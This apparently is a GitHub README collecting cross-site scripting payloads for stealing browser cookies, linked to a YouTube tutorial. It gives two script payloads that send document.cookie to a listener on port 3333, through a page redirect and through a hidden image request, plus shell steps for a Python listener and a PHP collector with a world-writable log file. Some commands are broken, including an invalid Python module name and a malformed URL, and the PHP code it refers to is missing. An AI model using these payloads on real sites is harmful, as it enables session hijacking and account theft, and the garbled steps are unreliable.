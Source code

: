 # Stealling_Cookies

All Payload that used from this Youtube Video:

https://youtu.be/Kh1sgI5yLdk


Payloads:

# Takeing The Cookie From Python3 Server Listener:

1- Strat Python Server:

YasserREED > Python3 -m Server.http 3333 <- Any Port You Like!

2- write Payload with window.location() function:

<script> window.location='https://127.0.0.1/:3333?cookie='+document.cookie </script> 


# Send Cookies without go to another window :

1- Strat Python Server:

YasserREED> Python3 -m Server.http 3333 <- Any Port You Like!

2- write the Pyaload:

<script>
    var i = new Image();
    i.src="http://127.0.0.1:3333/?cookie="+document.cookie
</script>  


# Wirte PHP Code To Take the Cookie:

1- go to html File:

[~] YasserREED> cd  /var/www/html

2- make File get.php:

YasserrEED> sudo gedit get.php

// Code with the File Just Copy it 

2- make log.txt

YasserrEED> sudo touch log.txt

3- give all Privileges:

YasserREED> sudo chmod 777 log.txt


